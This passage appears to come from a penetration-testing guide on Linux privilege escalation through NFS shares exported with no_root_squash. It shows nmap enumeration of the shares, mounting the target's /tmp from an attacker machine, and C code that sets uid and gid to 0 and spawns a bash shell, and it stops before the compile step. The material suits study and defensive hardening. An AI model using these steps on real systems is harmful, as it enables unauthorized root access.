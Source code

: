From above we can see that available NFS shares from within the target system. All shares have `no_root_squash` enabled. We will be using the `/tmp` share as the example going forward.

From the adversary's perspective the NFS shares have been enumerated with `Nmap` and the attacker has discovered the shares are mountable.

```bash
nmap --script nfs-ls,nfs-statfs <IP>
```

![](<../../.gitbook/assets/image (149).png>)

On the adversary's attacking system a directory is created from where the target systems `/tmp` directory can be mounted

```bash
mkdir /tmp/1
sudo mount -o rw <IP>:/tmp /tmp/1 
```

From the attackers machine we can see the contents of the target system `/tmp` directory.

![](<../../.gitbook/assets/image (980).png>)

Next, a simple C application is created which will spawn a bash shell.

```
int main()
{ setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
 }
```
